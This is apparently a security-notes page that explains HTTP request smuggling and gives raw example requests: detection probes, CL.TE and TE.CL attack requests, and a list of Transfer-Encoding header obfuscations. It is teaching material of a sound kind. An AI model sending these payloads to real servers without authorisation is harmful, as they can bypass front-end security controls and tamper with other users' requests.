 # HTTP request smuggling

HTTP request smuggling is a server-side attack that takes advantage of discrepancies in how web servers and proxies interpret HTTP requests, potentially leading to request manipulation, security bypasses, or the exposure of sensitive data.

### Table of Content

- **[Explanation](#explanation)**
    - [How do HTTP request smuggling vulnerabilities arise?](#how-do-http-request-smuggling-vulnerabilities-arise)
- **[Exploit](#exploit)**
    - [prepare smuggling](#prepare)
    - [Detect type of smuggling](#detect-type-of-smuggling)
    - [CL.TE vulnerabilities](#clte-vulnerabilities)
    - [TE.TE: obfuscating the TE header](#tete-obfuscating-the-te-header)

## Explanation

Today's web applications frequently employ chains of HTTP servers between users and the ultimate application logic. Users send requests to a front-end server (sometimes called a load balancer or reverse proxy) and this server forwards requests to one or more back-end servers. This type of architecture is increasingly common, and in some cases unavoidable, in modern cloud-based applications.

When the front-end server forwards HTTP requests to a back-end server, it typically sends several requests over the same back-end network connection, because this is much more efficient and performant. The protocol is very simple; HTTP requests are sent one after another, and the receiving server has to determine where one request ends and the next one begins.

An attacker can simulate the end of it request to be interpreted by the back-end server as the start of the next request. At this point, he can inject some code in the next request.

![illustration of smuggling attack](/web/img/smuggling-http-request-to-back-end-server.svg)

### How do HTTP request smuggling vulnerabilities arise?

Most HTTP request smuggling vulnerabilities arise because the HTTP/1 specification provides two different ways to specify where a request ends: the Content-Length header and the Transfer-Encoding header.

The Content-Length header is straightforward: it specifies the length of the message body in bytes. For example:

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. For example:

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

If both the Content-Length and Transfer-Encoding headers are present, then the Content-Length header should be ignored. This might be sufficient to avoid ambiguity when only a single server is in play, but not when two or more servers are chained together. In this situation, problems can arise for two reasons:

- Some servers do not support the Transfer-Encoding header in requests.
- Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.

If the front-end and back-end servers behave differently in relation to the (possibly obfuscated) Transfer-Encoding header, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities.

*Websites that use HTTP/2 end-to-end are inherently immune to request smuggling attacks. As the HTTP/2 specification introduces a single, robust mechanism for specifying the length of a request, there is no way for an attacker to introduce the required ambiguity.However, many websites have an HTTP/2-speaking front-end server, but deploy this in front of back-end infrastructure that only supports HTTP/1. This means that the front-end effectively has to translate the requests it receives into HTTP/1. This process is known as HTTP downgrading.*

## Exploit

Classic request smuggling attacks involve placing both the Content-Length header and the Transfer-Encoding header into a single HTTP/1 request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behavior of the two servers:

- CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
- TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
- TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

### Prepare

![prepare](/web/img/prepare-smuggling.png)

### Detect type of smuggling

![detect](/web/img/detect-smugglin.png)

```
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

```
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

### CL.TE vulnerabilities

The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

We can perform a simple HTTP request smuggling attack as follows:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

Content-Length = 6  = 0\r\n + \r\n + x

The front-end server processes the Content-Length header and determines that the request body is 6 bytes long, up to the end of X. This request is forwarded on to the back-end server.

The back-end server processes the Transfer-Encoding header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be zero length, and so is treated as terminating the request. The following bytes, X, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

So if you send this twice, next request will be handle as `XPOST /HTTP/1.1`.

### TE.CL vulnerabilities

Here, the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. We can perform a simple HTTP request smuggling attack as follows:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

### TE.TE: obfuscating the TE header

TE.TE vulnerability, it is necessary to find some variation of the Transfer-Encoding header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

There are potentially endless ways to obfuscate the Transfer-Encoding header. For example:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```



---

[**:arrow_right_hook: Back home**](/README.md)